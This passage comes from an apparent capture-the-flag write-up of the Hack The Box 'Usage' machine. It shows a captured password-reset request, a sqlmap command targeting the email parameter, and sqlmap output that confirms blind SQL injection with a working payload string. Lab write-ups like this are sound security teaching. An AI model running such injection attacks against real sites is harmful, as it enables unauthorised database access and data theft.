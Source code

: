 This is definitely worth investigating for a SQL injection.

After spending quite awhile testing, and not finding anything, I sent a request to Burp, copied the request to a file called burp.txt, and used sqlmap to enumerate further.

```
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ cat burp.txt   
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IlkxYktZdEcvTDhjRTF0QUVYaEszdnc9PSIsInZhbHVlIjoicytzNTFNczBmL0cyN1djRS8xV1p5T0FRay80U1VZS2F6M05UWDlXMnljTldMeU56WmZzeUE1K1JhMDJ4MSt2VGFya0VweHNSa2R5YkNubDE4TXd1TjRJV3lmY2loNS9ZSlRKRkZFVm1nc29sZ1R4c0QzRy92Q2JBV2huSnZrWlEiLCJtYWMiOiJkMDkyMTQzYTU2NjVjODEwMTkxNTkzNDA1ZWZjNmM4NTgxMzA5ZTU1ZTZjZjMyNWE1NGI4ZDIyNjk5MWMyN2UzIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjJxNHRPdERSTFpBN2tPRUphY3pLWkE9PSIsInZhbHVlIjoibkxZa1I3TmtJUVk0Mno4cUxTWUMzTkFoYUpqR0dlaE15YkUzV3Fvc1VHTEdxUlR6OHpiSUpuUUQwQkZLQkg1eGp5U1lDRUdjNVNGelNDODhmckZDZVZ0ZFJOQmpuUk9HUTB1aTBxYWtIa1hVclQxdmhPOUFTdktBb09WU0trY0oiLCJtYWMiOiIxNjEzNTEzM2U4N2VkNjYyYjgyNmE0NGJmY2M2MWE5NTRlZWUwOTE2ODg0OTU3YjVhZTEyNGMzOTJkYzBiMjkwIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=YiNzrNxWRNzcxuA3dihvcYSKaLEJg5pek2yqT5tz&email=test
```

In sqlmap we can declare the parameter of email:

```
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ sqlmap -r burp.txt --batch --level 5 --risk 3  -p email        
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.6.3#dev}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
<SNIP>
[10:10:54] [INFO] POST parameter 'email' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
[10:10:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:10:54] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:10:55] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:10:58] [INFO] target URL appears to have 8 columns in query
<SNIP>
sqlmap identified the following injection point(s) with a total of 737 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=YiNzrNxWRNzcxuA3dihvcYSKaLEJg5pek2yqT5tz&email=test' AND 2754=(SELECT (CASE WHEN (2754=2754) THEN 2754 ELSE (SELECT 3645 UNION SELECT 7270) END))-- BTrG

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
```